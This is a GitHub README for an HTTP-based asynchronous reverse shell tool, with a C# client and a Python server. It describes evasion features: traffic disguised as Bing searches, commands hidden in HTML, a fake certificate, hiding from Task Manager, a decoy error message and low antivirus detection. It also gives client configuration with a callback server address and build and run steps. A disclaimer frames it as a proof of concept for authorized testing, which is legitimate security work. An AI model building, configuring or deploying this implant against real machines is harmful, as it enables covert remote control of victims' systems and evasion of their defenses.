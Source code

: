 # HTTP Asynchronous Reverse Shell

Table of contents

 1. [Introduction](#intro)
 2. [Features](#features)
 3. [Demonstration](#demo)
 4. [Configuration](#config)

------------

<div id='intro'/>  
### Why ?

Today there are many ways to create a reverse shell in order to be able to remotely control a machine through a firewall. Indeed, outgoing connections are not always filtered.

However security software and hardware (IPS, IDS, Proxy, AV, EDR...) are more and more powerful and can detect these attacks.
Most of the time the connection to a reverse shell is established through a TCP or UDP tunnel.

I figured that the best way to stay undetected would be to make it look like legitimate traffic. 
The HTTP protocol is the most used by a standard user. Moreover it is almost never filtered so as not to block access to websites.

[![](https://github.com/onSec-fr/Http-Asynchronous-Reverse-Shell/blob/master/Images/Architecture.png?raw=true)](https://github.com/onSec-fr/Http-Asynchronous-Reverse-Shell/blob/master/Images/Architecture.png?raw=true)

### How it works ?
1) The client app is executed on the target machine.
2) The client initiates the connection with the server.
3) The server accepts the connection.

Then: 
-The client queries the server until it gets instructions.
-The attacker provides instructions to the server.
-When a command is defined, the client executes it and returns the result.

And so on, until the attacker decides to end the session.
[![](https://github.com/onSec-fr/Http-Asynchronous-Reverse-Shell/blob/master/Images/Concept.png?raw=true)](https://github.com/onSec-fr/Http-Asynchronous-Reverse-Shell/blob/master/Images/Concept.png?raw=true)

### Disclaimer

This tool is only intended to be a proof of concept demonstration tool for authorized security testing. Make sure you check with your local laws before running this tool.

------------

<div id='features'/>  
### Features

Today, as a poc, the following functionalities are implemented: 

1. Fake HTTP traffic to appear as searches on bing.com.
2. Commands are base64 encoded in the HTML response.
3. The result of the commands is encoded in base64 as a cookie by the client.
4. SSL support; by default it is a fake bing.com certificate.
5. Random delay between each customer call to avoid triggering IDSs.
6. Random template is used for each response from the server.
7. Re-use of the same powershell process to avoid triggering EDRs.
8. Support for all Cmd and Powershell commands.
9. The client display a fake error message at startup.
10. The client is hidden from tasks manager.
11. The client can be run as an administrator.

##### AV Detection

Only 3 out of 69 products were able to detect the client as malicious, without applying any evasive or obfuscation techniques.

[![](https://github.com/onSec-fr/Http-Asynchronous-Reverse-Shell/blob/master/Images/av_detection.png?raw=true)](https://github.com/onSec-fr/Http-Asynchronous-Reverse-Shell/blob/master/Images/av_detection.png?raw=true)

------------

<div id='demo'/>  
### Demonstration

#####Client side
[![](https://github.com/onSec-fr/Http-Asynchronous-Reverse-Shell/blob/master/Images/client_demo.gif?raw=true)](https://github.com/onSec-fr/Http-Asynchronous-Reverse-Shell/blob/master/Images/client_demo.gif?raw=true)

#####Server side
[![](https://github.com/onSec-fr/Http-Asynchronous-Reverse-Shell/blob/master/Images/server_demo.gif?raw=true)](https://github.com/onSec-fr/Http-Asynchronous-Reverse-Shell/blob/master/Images/server_demo.gif?raw=true)

------------

<div id='config'/>  
### Configuration

####Client : C Sharp

1. Open *HARS.sln* in Visual Studio

**Config.cs**

This file contains parameters ; Assign the values you want :

    class Config
        {
            // Behavior
            public static bool DisplayErrorMsg = true;
            public static string ErrorMsgTitle = "This application could not be started.";
            public static string ErrorMsgDesc = "Unhandled exception has occured in your application. \r\r Object {0} is not valid.";
            public static int MinDelay = 2;
            public static int MaxDelay = 5;
            public static string Url = "search?q=search+something&qs=n&form=QBRE&cvid=";
            // Listener
            public static string Server = "https://192.168.24.79";
            public static string Port = "443";
            public static bool AllowInsecureCertificate = true;
        }

**HARS.manifest**

Change this line to run by default the client with certain privileges : 

`<requestedExecutionLevel  level="requireAdministrator" uiAccess="false" />`

With
`<requestedExecutionLevel  level="asInvoker" uiAccess="false" />`
or
`<requestedExecutionLevel  level="requireAdministrator" uiAccess="false" />`
or
`<requestedExecutionLevel  level="highestAvailable" uiAccess="false" />`

**Projet properties**

Here you can customize the assembly information and an icon for the file.

[![](https://github.com/onSec-fr/Http-Asynchronous-Reverse-Shell/blob/master/Images/project_config.png?raw=true)](https://github.com/onSec-fr/Http-Asynchronous-Reverse-Shell/blob/master/Images/project_config.png?raw=true)

Note : Target .NET framework version is 3.5 which is available by default from Windows 7.

#### Build

Build the project from Visual Studio.
The client should be generated in `Http Asynchronous Reverse Shell\HARS_Client\HARS\bin\Release` folder.

**Done!**

------------

####Server : Python

**HARS_Server.py**
Location : `Http Asynchronous Reverse Shell\HARS_Server\www`

Simply change the port or location on the certificate if needed in the config section.

    # Config
    PORT = 443
    CERT_FILE = '../server.pem'

#### Run

`python HARS_Server.py`

#### Notes
-HTTP Logs are located in `Http Asynchronous Reverse Shell\HARS_Server\logs`
-You can add your own templates (any html page) in `Http Asynchronous Reverse Shell\HARS_Server\templates`

------------
@onSec-fr